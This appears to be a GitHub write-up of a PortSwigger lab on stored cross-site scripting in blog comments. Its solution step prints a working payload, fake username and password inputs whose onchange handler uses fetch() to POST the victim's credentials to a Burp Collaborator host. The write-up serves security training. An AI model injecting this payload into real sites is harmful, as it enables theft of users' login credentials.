 # XSS - Exploiting cross-site scripting to capture passwords

## 📌 Lab Details
- **Title**: Exploiting cross-site scripting to capture passwords
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/08d9e37603cfe2ef7cf8a21c19e9fc73e81bb5d992fe2e876f8b6891b1759d43?referrer=%2fweb-security%2fcross-site-scripting%2fexploiting%2flab-capturing-passwords

## 🔍 Summary
This lab demonstrates a **stored XSS vulnerability** in blog comments. By injecting a malicious script into a comment, you can capture a victim's **username and password** when they view the comment and type into a form.

## 🛠 Steps to Solve
1. Open **Burp Collaborator** and copy the URL: `536tj2r9cz9okg21aaigqf9r4ia9y0mp.oastify.com`.
2. Inject the exploit comment:
   ```sh
   <input name=username id=username>
   <input type=password name=password  onchange="if(this.value.length)fetch('https://536tj2r9cz9okg21aaigqf9r4ia9y0mp.oastify.com',{
   method: 'POST',
   mode: 'no-cors',
   body: username.value+':'+this.value
   });">
3. Once the admin loads the comment, the script runs in their browser.
4. Click **Poll now** in the Burp Collaborator.
5. Use the admin's **user id and password** to log in.

## 📖 Key Takeaways
- You can **exfiltrate sensitive data** like credentials using `fetch()` and an external server.
- **Burp Collaborator** helps detect when a victim's browser makes a request to your server.
- Script-based attacks can be embedded in form inputs and triggered using event handlers like `onchange`.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/4f576e1e-e3e3-4f40-8fee-50e79a4de1bc)
![image](https://github.com/user-attachments/assets/0e49acec-5f8a-44ed-a329-c51f33e2a810)
![image](https://github.com/user-attachments/assets/a2fb02ab-774a-4a18-a462-d9be53de92c6)
![image](https://github.com/user-attachments/assets/c5a1763d-daa4-47fd-873b-bea2eb933581)
